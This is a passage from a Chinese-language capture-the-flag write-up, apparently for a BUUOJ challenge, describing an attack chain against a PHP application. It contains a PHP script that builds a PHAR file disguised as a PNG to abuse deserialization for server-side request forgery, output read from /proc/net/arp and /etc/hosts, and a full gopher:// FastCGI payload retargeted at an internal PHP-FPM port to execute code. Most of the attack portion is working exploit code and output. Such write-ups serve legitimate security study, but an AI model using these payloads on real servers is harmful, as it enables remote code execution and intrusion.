 ```php
$payload = new Main;
$payload->url = "file:///proc/net/arp";

$png_header = hex2bin('89504e470d0a1a0a0000000d49484452000000400000004000');
$phar = new Phar('exp.phar');
$phar -> startBuffering();
$phar -> setStub($png_header.'<?php __HALT_COMPILER();?>');   //设置 stub，增加 gif 文件头
$phar -> addFromString('test.txt','test');  //添加要压缩的文件
$phar -> setMetadata($payload);  //将自定义 meta-data 存入 manifest
$phar -> stopBuffering();
rename("exp.phar","exp.png");

?>
```

拿到
```
IP address       HW type     Flags       HW address            Mask     Device
173.236.149.2    0x1         0x2         02:42:ad:ec:95:02     *        eth0
```

``/etc/host``
拿到
```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
173.236.149.9	osrc
```

但是都么得回显，后来发现是173.236.149.10这个（估计是buuoj的镜像问题

然后访问一下显示

这里用evoa师傅的脚本打

```
python gopher.srff.exp.py -c "<?php phpinfo();?>" 173.236.149.10 /var/www/html/index.php
gopher://127.0.0.1:9000/_%01%01%005%00%08%00%00%00%01%00%00%00%00%00%00%01%04%005%01%DB%00%00%0E%02CONTENT_LENGTH18%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%005%00%00%00%00%01%05%005%00%12%00%00%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%01%05%005%00%00%00%00
```

替换成
```
gopher://173.236.149.10:9000/_%01%01%005%00%08%00%00%00%01%00%00%00%00%00%00%01%04%005%01%DB%00%00%0E%02CONTENT_LENGTH18%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%005%00%00%00%00%01%05%005%00%12%00%00%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%01%05%005%00%00%00%00
```
